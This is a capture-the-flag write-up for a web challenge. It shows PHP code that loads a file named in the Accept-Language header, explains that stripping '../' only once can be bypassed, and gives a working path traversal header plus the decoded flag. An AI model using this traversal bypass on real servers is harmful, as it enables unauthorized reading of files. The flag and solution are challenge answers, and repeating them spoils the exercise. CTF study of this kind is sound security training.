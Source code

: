 # 35C3 Junior CTF – flags

* **Category:** Web
* **Points:** variable

## Challenge

> Fun with flags: http://35.207.169.47
>
> Flag is at /flag
>
> Difficulty estimate: Easy

## Solution

The page shows the PHP snippet of which is composed and an image.

The PHP code is the following.

```PHP
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';
```

The web site extracts the language passed via HTTP header, considers the first language and tries to load a picture from the `flags` folder; that picture will be displayed.

Even if the `str_replace('../', '', $lang)` instruction is used, the path traversal vulnerability is still present and can be abused using `....//` instead of `../`.

After some attempts, you will discover the correct HTTP header to use.

```
Accept-Language: ....//....//....//....//flag
```

The returned "image" will be the following.

```
<img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">
```

Decoding the Base64 will give you the flag.

```
35c3_this_flag_is_the_be5t_fl4g
```